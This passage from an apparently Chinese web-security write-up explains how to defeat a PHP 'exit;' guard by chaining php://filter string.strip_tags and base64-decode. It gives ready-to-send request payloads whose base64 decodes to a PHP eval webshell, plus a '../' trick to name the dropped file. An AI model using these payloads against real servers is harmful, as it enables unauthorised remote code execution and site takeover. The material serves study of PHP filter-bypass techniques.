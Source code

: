 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01e38bbeece5f3b4fe.png)

从测试的结果来看base64解码的时候字符`'='`后面确实不能包含有其他字符，通过参考上述先知的两篇文章以及p牛的方法就可以绕过base64编码由于等号字符造成的问题，有关分析见下面相关过滤器部分。

<a class="reference-link" name="string.strip_tags"></a>**string.strip_tags**

这里关于`string.strip_tags`分两种环境去测试分析：这里限制条件同样在相同变量下

```
# 第一种
&lt;?php exit;

# 第二种
&lt;?php exit; ?&gt;
```

<a class="reference-link" name="%E7%AC%AC%E4%B8%80%E7%A7%8D"></a>**第一种**

由于上面`Bypass-不同变量`这种情况下的限制代码直接就是`&lt;?php exit; ?&gt;`可以直接利用`strip_tags`去掉，但是现在这种情况下的限制代码和上面的有点不一样了，少了一段字符`?&gt;`，其限制代码为`&lt;?php exit;`，不过构造的目的是相同的最终还是要把`exit;`给去除掉。

分析两者限制代码的不同，那么我们可以直接再给它加一个`?&gt;`字符串进行闭合就可以利用了
- 构造payload
```
a=php://filter/write=string.strip_tags|convert.base64-decode/resource=?&gt;PD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8+.php
```
- 代码合并
```
&lt;?php  exit();php://filter/write=string.strip_tags|convert.base64-decode/resource=?&gt;PD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8+.php
```

分析合并后的代码文件内容，发现成功的构造php标签`&lt;?php xxxx ?&gt;`，同时也可以发现代码中的字符等号’=’也包含在php标签里面，那么在经过strip_tags处理的时候都会去除掉，之后就不会影响base64的正常解码了。
- 载荷效果
[![](https://p3.ssl.qhimg.com/t0190721894882837df.png)](https://p3.ssl.qhimg.com/t0190721894882837df.png)

可以看到payload请求成功，在服务器上生成了相应的文件，同时也正常的写入了webshell

虽然这样利用成功了，但是会发现这样的文件访问会有问题的，采用`[@Cyc1e](https://github.com/Cyc1e)`师傅里面介绍的方法，利用`../`重命名即可解决。【关于这种方法`../`其实先知的两篇文章ThinkPHP5.0反序列化利用链里面的payload就存在`../`，还是太菜了当时只分析了使用什么过滤器可以进行绕过 emmmm……】
- 利用技巧
```
a=php://filter/write=string.strip_tags|convert.base64-decode/resource=?&gt;PD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8+/../Qftm.php
```

把`?&gt;PD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8+`作为目录名（不管存不存在），再用`../`回退一下，这样创建出来的文件名为Qftm.php，这样创建出来的文件名就正常了。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01f89e77b76b5d1e22.png)
